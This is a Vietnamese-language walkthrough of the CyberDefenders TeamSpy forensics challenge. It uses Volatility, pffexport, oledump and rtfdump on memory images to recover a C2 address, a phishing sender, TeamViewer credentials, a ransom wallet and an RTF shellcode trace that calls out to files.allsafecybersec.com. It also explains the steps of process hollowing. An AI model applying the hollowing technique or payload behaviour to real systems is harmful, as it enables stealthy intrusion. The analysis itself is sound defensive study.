










---


[https://cyberdefenders.org/blueteam-ctf-challenges/teamspy/](https://cyberdefenders.org/blueteam-ctf-challenges/teamspy/)


Sau khi dùng malfind không thấy dấu hiệu MZ


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir/ecorpoffice]
└─$ vol2 -f win7ecorpoffice2010-36b02ed3.vmem --profile=Win7SP1x64 -g 0xf800029ed070 hollowfind
Volatility Foundation Volatility Framework 2.6
Hollowed Process Information:
        Process: svchost.exe PID: 816
        Parent Process: services.exe PPID: 460
        Creation Time: 2016-10-04 12:05:24 UTC+0000
        Process Base Name(PEB): svchost.exe
        Command Line(PEB): C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted
        Hollow Type: Process Base Address and Memory Protection Discrepancy

VAD and PEB Comparison:
        Base Address(VAD): 0xffbc0000
        Process Path(VAD): \Windows\System32\winlogon.exe
        Vad Protection: PAGE_EXECUTE_WRITECOPY
        Vad Tag: Vad 

        Base Address(PEB): 0xff250000
        Process Path(PEB): C:\Windows\System32\svchost.exe
        Memory Protection: PAGE_EXECUTE_WRITECOPY
        Memory Tag: Vad 

0xff250000  4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00   MZ..............
0xff250010  b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00   ........@.......
0xff250020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0xff250030  00 00 00 00 00 00 00 00 00 00 00 00 e8 00 00 00   ................

Similar Processes:
        svchost.exe(816) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(644) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(900) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(924) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(928) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(2232) Parent:services.exe(460) Start:2016-10-04 12:06:06 UTC+0000
        svchost.exe(752) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(372) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(1144) Parent:services.exe(460) Start:2016-10-04 12:05:24 UTC+0000
        svchost.exe(2940) Parent:services.exe(460) Start:2016-10-04 12:06:14 UTC+0000

Suspicious Memory Regions:
        0x7feff6d0000(No PE/Possibly Code)  Protection: PAGE_EXECUTE_WRITECOPY  Tag: Vad 

```


Sự chênh lệch giữa PEB và VAD vẽ lại toàn bộ quá trình mã độc đánh lừa hệ thống:

1. **Tạo vỏ bọc:** Mã độc gọi API của Windows để tạo một tiến trình hợp pháp là `svchost.exe` nhưng ở trạng thái tạm dừng (`CREATE_SUSPENDED`). Lúc này, PEB được hệ điều hành ghi nhận hợp lệ là `svchost.exe`.
2. **Móc ruột (Hollowing):** Mã độc dùng hàm `NtUnmapViewOfSection` để "khoét rỗng" toàn bộ mã nguồn hợp pháp của `svchost.exe` ra khỏi bộ nhớ.
3. **Bơm mã độc (Injection):** Mã độc bơm payload của nó vào cái vỏ rỗng đó. Ở đây, có vẻ payload của kẻ tấn công được ngụy trang dưới cái tên `winlogon.exe` (hoặc nó lợi dụng một section của `winlogon.exe` để bypass Antivirus). Khi file này được ánh xạ vào RAM, Kernel ghi nhận vào VAD là `winlogon.exe`.
4. **Khởi chạy:** Mã độc chỉnh sửa con trỏ lệnh (EIP/RIP) trỏ vào payload mới và cho tiến trình tiếp tục chạy (`ResumeThread`).

:::tip

vol2 -f win7ecorpoffice2010-36b02ed3.vmem --profile=Win7SP1x64 -g 0xf800029ed070

:::


### Q1 File-&gt;ecorpoffice What is the PID the malicious file is running under? {#3517b0eb61a480d79c2cfef9950c71f0}


1364





### Q2 File-&gt;ecorpoffice What is the C2 server IP address? {#3517b0eb61a48037b8a6f3b4ff7833b8}


**SkypeC2AutoUpdate.exe** is a malicious executable file often associated with the **TeamSpy** malware family, designed to masquerade as a legitimate Skype update process. It is commonly used in forensic investigations and malware analysis training (such as the GrrCon 2016 challenge) to demonstrate how remote access tools (RATs) operate
 54.174.131.235:80 


### Q3 File-&gt;ecorpoffice What is the Teamviewer version abused by the malicious file? {#3517b0eb61a480c5ab71d2f51aaf548b}





Tôi sử dụng exiftool cũng sai toàn ra 6.0.0.0


### Q4 File-&gt;ecorpoffice What password did the malicious file use to enable remote access to the system? {#3517b0eb61a4806fbbc2e5303bdac242}


```c++
└─$ vol2 -f win7ecorpoffice2010-36b02ed3.vmem --profile=Win7SP1x64 -g 0xf800029ed070 editbox
Volatility Foundation Volatility Framework 2.6
******************************
Wnd Context       : 1\WinSta0\Default
Process ID        : 1364
ImageFileName     : SkypeC2AutoUpd
IsWow64           : Yes
atom_class        : 6.0.7600.16385!Edit
value-of WndExtra : 0xf07848
nChars            : 43
selStart          : 0
selEnd            : 0
isPwdControl      : False
undoPos           : 0
undoLen           : 0
address-of undoBuf: 0x0
undoBuf           : 
-------------------------
Передайте свои ID 528 812 561 и пароль 8218

```


Передайте свои ID 528 812 561 и пароль 8218 có nghĩa là cung cấp id của bạn và mật khẩu


Đây giống với quy trình đăng nhập từ xa của Teamviewer. Giả dạng dưới tên là SkypeC2AutoUp.exe


Dưới khối trên có những khối tiếp theo với nội dung như sau:

- `phillip.price`
- `P59fS93m`
- `528 812 561`

Khả năng cao đây là tài khoản và mật khẩu của nạn nhân để đăng nhập vào và điều khiển từ xa


### Q5 File-&gt;ecorpoffice What was the sender's email address that delivered the phishing email? {#3517b0eb61a4806ea1dceb22760b0f83}


0xfffffa8003dbc8e0 OUTLOOK.EXE            2692   2492     29     2082      1      1 2016-10-05 03:05:06


Lại dùng chiêu yarascan


```c++
──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir/ecorpoffice]
└─$ vol2 -f win7ecorpoffice2010-36b02ed3.vmem --profile=Win7SP1x64 -g 0xf800029ed070 yarascan -p 2692 -Y "From:"          
Volatility Foundation Volatility Framework 2.6
Rule: r1
Owner: Process OUTLOOK.EXE Pid 2692
0x08577e77  46 72 6f 6d 3a 20 22 6b 61 72 65 6e 6d 69 6c 65   From:."karenmile
0x08577e87  73 40 74 2d 6f 6e 6c 69 6e 65 2e 64 65 22 20 3c   s@t-online.de".<
0x08577e97  6b 61 72 65 6e 6d 69 6c 65 73 40 74 2d 6f 6e 6c   karenmiles@t-onl
0x08577ea7  69 6e 65 2e 64 65 3e 0d 0a 53 65 6e 64 65 72 3a   ine.de>..Sender:
0x08577eb7  20 22 6b 61 72 65 6e 6d 69 6c 65 73 40 74 2d 6f   ."karenmiles@t-o
0x08577ec7  6e 6c 69 6e 65 2e 64 65 22 20 3c 6b 61 72 65 6e   nline.de".<karen
0x08577ed7  6d 69 6c 65 73 40 74 2d 6f 6e 6c 69 6e 65 2e 64   miles@t-online.d
0x08577ee7  65 3e 0d 0a 52 65 70 6c 79 2d 54 6f 3a 20 22 6b   e>..Reply-To:."k
0x08577ef7  61 72 65 6e 6d 69 6c 65 73 40 74 2d 6f 6e 6c 69   arenmiles@t-onli
0x08577f07  6e 65 2e 64 65 22 20 3c 6b 61 72 65 6e 6d 69 6c   ne.de".<karenmil
0x08577f17  65 73 40 74 2d 6f 6e 6c 69 6e 65 2e 64 65 3e 0d   es@t-online.de>.
0x08577f27  0a 54 6f 3a 20 22 70 68 69 6c 6c 69 70 2e 70 72   .To:."phillip.pr
0x08577f37  69 63 65 40 65 2d 63 6f 72 70 2e 62 69 7a 22 20   ice@e-corp.biz".
0x08577f47  3c 70 68 69 6c 6c 69 70 2e 70 72 69 63 65 40 65   <phillip.price@e
0x08577f57  2d 63 6f 72 70 2e 62 69 7a 3e 0d 0a 4d 65 73 73   -corp.biz>..Mess
0x08577f67  61 67 65 2d 49 44 3a 20 3c 31 34 37 35 35 38 32   age-ID:.<1475582

```


karenmiles@t-online.de


### Q6 File-&gt;ecorpoffice What is the MD5 hash of the malicious document? {#3517b0eb61a480eea632f4e13887d838}


C:\Users\phillip.price\Documents\Outlook Files\Outlook.pst


Đã thử strings memory và grep email nhưng chưa thấy


`strings -el win7ecorpoffice2010-36b02ed3.vmem |grep -i -A 20 -B 20 "`[`karenmiles@t-online.de`](mailto:karenmiles@t-online.de)`" | grep -Ei "pdf|xls|doc|docx"
:bank_statement_088452.doc`


bank_statement_088452.docapplication/msword  - biết đây là file malicious nhưng không tìm thấy nó trong filescan


Ta dump outlook.pst ra và dùng foremost tái tạo lại zip. Lòi ra file docx bởi vì nó cũng tính như là file zip





Nhưng kết quả là không đúng


Thử dump hết tất cả các file pst ra (vì nếu dump chỉ một file thì khả năng khi bung ra trên RAM sẽ bị ái) và dùng các công cụ để phân tích file pff-tools cụ thể là pffexport


dumpfiles


```c++
mkdir pst_files
vol2 -f win7ecorpoffice2010-36b02ed3.vmem --profile=Win7SP1x64 -g 0xf800029ed070 dumpfiles -n -u -r pst$ -D pst_files 

```


**`-u`** **(hoặc** **`--unsafe`****)**: Chế độ **Không an toàn (Unsafe mode)**. Mặc định, Volatility sẽ kiểm tra tính toàn vẹn của các con trỏ file (sanity checks) trước khi dump. Cờ `-u` ép Volatility bỏ qua các bài kiểm tra này và cố gắng dump _mọi thứ_ nó thấy, kể cả khi vùng nhớ đó có vẻ bị lỗi, không hoàn chỉnh hoặc đã bị mã độc cố tình che giấu/chỉnh sửa.


```c++
find . -type f -exec pffexport -m all -f all "{}" \;
```

- **`m all`** _(Mode = all)_: Yêu cầu trích xuất ở **tất cả các chế độ**. Nó không chỉ lấy những email bình thường, mà còn cố gắng khôi phục (recover) cả những email hay dữ liệu đã bị xóa (nếu còn sót lại trong file).
- **`f all`** _(Format = all)_: Yêu cầu trích xuất ở **tất cả các định dạng**. Outlook thường lưu nội dung dưới nhiều dạng (Văn bản thuần túy, HTML, RTF). Lệnh này bảo tool hãy xuất ra tất cả các định dạng mà nó tìm thấy để tránh bỏ sót thông tin.

Ta tìm được 2 file


```c++
find . -type f -name "*.doc"                        
./file.2692.0xfffffa80042dcf10.phillip.price@e-corp.biz.pst.dat.export/Top of Outlook data file/Inbox/Message00011/Attachments/1_bank_statement_088452.doc
./file.2692.0xfffffa8003ef6790.phillip.price@e-corp.biz.pst.vacb.export/Top of Outlook data file/Inbox/Message00011/Attachments/1_bank_statement_088452.doc

```


Sau đó ta tạo ra một folder mới và bỏ những file không rỗng vào


```c++
mkdir malicious_docs
find . -type f -name "*.doc" ! -size 0 -exec cp "{}" malicious_docs/ \;
```


Rồi tính hash


```c++
md5sum *                          
c2dbf24a0dc7276a71dd0824647535c9  1_bank_statement_088452.doc
```


### Q7 File-&gt;ecorpoffice What is the bitcoin wallet address that ransomware was demanded? {#3517b0eb61a480ac9d54cbde0f99618d}


Dùng grep -ri “bicoin” để tìm trong các file mail xem có nội dung liên quan không





Ta đi tới và xem nội dung bên trong


25UMDkGKBe484WSj5Qd8DhK6xkMUzQFydY


### Q8 File-&gt;ecorpoffice What is the ID given to the system by the malicious file for remote access? {#3517b0eb61a48014a489e3c5a590bc00}


Đã giải được ở câu 6: `528 812 561`


### Q9 File-&gt;ecorpoffice What is the IPv4 address the actor last connected to the system with the remote access tool? {#3517b0eb61a480768d85d2036eb2c191}


Tại sao windows phải bắt chuỗi ascii và cả unicode


Hệ điều hành Windows sử dụng song song hai chuẩn mã hóa văn bản là ASCII (tiếng Anh chuẩn) và Unicode/UTF-16 (hỗ trợ nhiều ngôn ngữ).


```c++
strings -a -td win7ecorpoffice2010-36b02ed3.vmem > win7ecorpoffice2010-36b02ed3.vmem.txt
strings -a -td -el win7ecorpoffice2010-36b02ed3.vmem >> win7ecorpoffice2010-36b02ed3.vmem.txt
```


Sau đó dùng id ở trên và grep


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir/ecorpoffice]
└─$ cat win7ecorpoffice2010-36b02ed3.vmem.txt|grep -Fi "528 812 561" -A 10 -B 10 | grep -Ei "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
591414448 31.6.13.155
591414688 162.220.222.3
591414728 188.172.251.2:0
591414848 188.172.251.2
591415088 188.172.251.2
591415408 188.172.251.2
591415808 178.77.120.7

```


Ta đi grep ip này để chắc chắn hơn


```c++
$ cat win7ecorpoffice2010-36b02ed3.vmem.txt | grep -Fi "31.6.13.155" -A 10 -B 10

```





IP và mật khẩu nối tiếp nhau, như vậy đã rõ ràng


Một lời giải trên mạng:


`cat ecorpoffice/*.txt  | grep -i -F 'teamviewer' -B 10 -A 20 | grep -o -E "([0-9]{1,3}[\.]){3}[0-9]{1,3}" | sort | uniq -c | sed '/\.0\.0/d' | sed '/\.1\.1/d’`


`... | sed '/\.0\.0/d' | sed '/\.1\.1/d'`


**Giải phẫu lệnh** **`sed`** **này:**

- **`sed`** (Stream Editor): Là công cụ chuyên dùng để thao tác (xóa, thay thế, chèn) văn bản trực tiếp trên Terminal.
- **`/ ... /`**: Khai báo chuỗi cần tìm kiếm. Ở đây tác giả tìm `\.0\.0` (tức là chuỗi `.0.0`).
- **`d`** **(Delete):** Lệnh xóa.

👉 **Ý nghĩa:** Tác giả nhận ra Regex của họ bắt nhầm cả các phiên bản phần mềm (như `14.0.0.0`, `1.1.1.1`). Nên họ dùng `sed` với ý nghĩa: _"Hãy xóa (d) tất cả các dòng nào có chứa chữ '.0.0' hoặc '.1.1' đi cho tôi"_.


### Q10 File-&gt;ecorpoffice What Public Function in the word document returns the full command string that is eventually run on the system? {#3517b0eb61a480798a04c3c3c046accd}


Dùng oledump 


```c++
oledump 1_bank_statement_088452.doc        
A: word/vbaProject.bin
 A1:       442 'PROJECT'
 A2:        41 'PROJECTwm'
 A3: M   40051 'VBA/ThisDocument'
 A4:      4313 'VBA/_VBA_PROJECT'
 A5:     10839 'VBA/__SRP_0'
 A6:       788 'VBA/__SRP_1'
 A7:     17659 'VBA/__SRP_2'
 A8:      3004 'VBA/__SRP_3'
 A9:       777 'VBA/dir'
B: word/activeX/activeX1.bin
 B1:        94 'Contents'
oledump -s 3 -v 1_bank_statement_088452.doc > macro_extracted.vba

```





UsoJar


### Q11 File-&gt;ecorpwin7 What is the MD5 hash of the malicious document? {#3517b0eb61a480c08c08c8956c2e05fc}


0xfffffa80037a7060 OUTLOOK.EXE            2496   2172     20     2125      1      1 2016-10-04 14:37:22 UTC+0000 


Tiếp tục


```c++
mkdir pst_files
vol2 -f ecorpwin7-e73257c4.vmem --profile=Win7SP1x64 -g 0xf80002bf70a0 dumpfiles -n -u -r pst$ -D pst_files
find . -type f -exec pffexport -m all -f all "{}" \;
tree pst_files
```





ta tìm thấy 2 file 1_Important_ECORP_Lawsuit_Washington_Leak.rtf nhưng đều bị 0 byte


`vol2 -f ecorpwin7-e73257c4.vmem --profile=Win7SP1x64 -g 0xf80002bf70a0 filescan | grep -i "washington"`


`Volatility Foundation Volatility Framework 2.6
0x000000007d6b33c0      1      0 R--r-- \Device\HarddiskVolume1\Users\scott.knowles\Documents\~$portant_ECORP_Lawsuit_Washington_Leak.rtf
0x000000007d6b3850      1      0 R--r-- \Device\HarddiskVolume1\Users\scott.knowles\Documents\Important_ECORP_Lawsuit_Washington_Leak.rtf`


Ta dump file này ra và tính hash. Tuy nhiên vẫn sai


Kiểm tra lại ở đuôi có nhiều ký tự rác 00000 và ta dùng xxd với sed để xử lý


```c++
┌──(cuong_nguyen㉿Kali)-[~/…/cyberdefenders.org/temp_extract_dir/ecorpwin7/rtfdump]
└─$ xxd -p file.None.0xfffffa80040b3260.dat | sed '/000000000000000000000000000000000000000000000000000/d' | sed 's/6131376136616631303365316533616437657d7d7d7d0000000000000000/6131376136616631303365316533616437657d7d7d7d/g' | xxd -r -p > Important_lawsuit.rtf
                                                                                                                                  
┌──(cuong_nguyen㉿Kali)-[~/…/cyberdefenders.org/temp_extract_dir/ecorpwin7/rtfdump]
└─$ md5sum *
2c51251c6f246946c206f0a8bedd041b  file.None.0xfffffa80040b3260.dat
00e4136876bf4c1069ab9c4fe40ed56f  Important_lawsuit.rtf

```

- **`xxd -p ...`**: Lệnh này đọc tệp `.dat` bạn vừa trích xuất và hiển thị nội dung dưới dạng một chuỗi ký tự Hex liên tục (Plain hex dump).
- **Mục đích**: Chuyển dữ liệu nhị phân về dạng văn bản để các công cụ xử lý chuỗi như `sed` có thể làm việc được.
- Các lệnh sed để xóa số 0 và thay thế
- **`xxd -r -p`**: Đảo ngược (`r`) quá trình ở bước 1. Nó chuyển chuỗi Hex đã được làm sạch trở lại thành tệp nhị phân.
- **`> Important_...rtf`**: Lưu kết quả vào tệp mới với định dạng chuẩn `.rtf`.

### Q12 File-&gt;ecorpwin7 What is the common name of the malicious file that gets loaded?" {#3517b0eb61a480e68023ddb5ed03f887}


Phân tích file rtf


```c++
┌──(cuong_nguyen㉿Kali)-[/opt/DidierStevensSuite]
└─$ python rtfdump.py '/home/cuong_nguyen/Desktop/cyberdefenders.org/temp_extract_dir/ecorpwin7/rtfdump/Important_lawsuit.rtf' 
    1 Level  1        c=    1 p=00000000 l=  102860 h=  102823;  102818 b=       0   u=       9 \rtf1
    2  Level  2       c=    1 p=00000006 l=  102853 h=  102823;  102818 b=       0   u=       9 \shp
    3   Level  3      c=    2 p=0000000b l=  102847 h=  102823;  102818 b=       0   u=       9 \sp
    4    Level  4     c=    0 p=0000000f l=      14 h=       3;       1 b=       0   u=       7 \sn
    5    Level  4     c=    0 p=0000001f l=  102826 h=  102820;  102818 b=       0   u=       2 \sv

```


Ta dump stream 5 ra


```c++
rtfdump -s 5 -H -d Important_lawsuit.rtf > payload.bin
```

- -H từ hex sang binary
- -d, --dump            perform dump

Và dùng scdbg


```c++
                                                                                                                                  
┌──(cuong_nguyen㉿Kali)-[~/…/cyberdefenders.org/temp_extract_dir/ecorpwin7/rtfdump]
└─$ scdbg -f payload.bin /findsc                                        
Loaded c8d2 bytes from file payload.bin
Testing 51410 offsets  |  Percent Complete: 99%  |  Completed in 77519 ms
0) offset=0x7          steps=MAX    final_eip=7c801d7b   LoadLibraryA
1) offset=0x1749       steps=MAX    final_eip=7c801d7b   LoadLibraryA
2) offset=0x1753       steps=MAX    final_eip=7c801d7b   LoadLibraryA                                                             
3) offset=0x3a40       steps=MAX    final_eip=404a51     
4) offset=0x3a42       steps=MAX    final_eip=404a58      
5) offset=0x3a48       steps=MAX    final_eip=404a53                                                                              
6) offset=0x3a4b       steps=MAX    final_eip=404a58     
7) offset=0x44b2       steps=MAX    final_eip=4054bf      
8) offset=0x5842       steps=MAX    final_eip=40682f                                                                              
9) offset=0x5bf3       steps=MAX    final_eip=7c801d7b   LoadLibraryA

Select index to execute:: (int/reg) 0
0
Loaded c8d2 bytes from file payload.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 7
401007  BBB19D99B6                      mov ebx,0xb6999db1
40100c  D9C1                            fld st(0),st(1)                                                                           
40100e  D97424F4                        fstenv [esp-0xc]                                                                          
401012  5A                              pop edx                                                                                   
401013  2BC9                            sub ecx,ecx                                                                               
                                                                                                                                  
                                                                                                                                  
4010c6  LoadLibraryA(wininet)
4010d4  InternetOpenA(wininet)
4010ea  InternetConnectA(server: files.allsafecybersec.com, port: 80, )

Stepcount 2000001

```

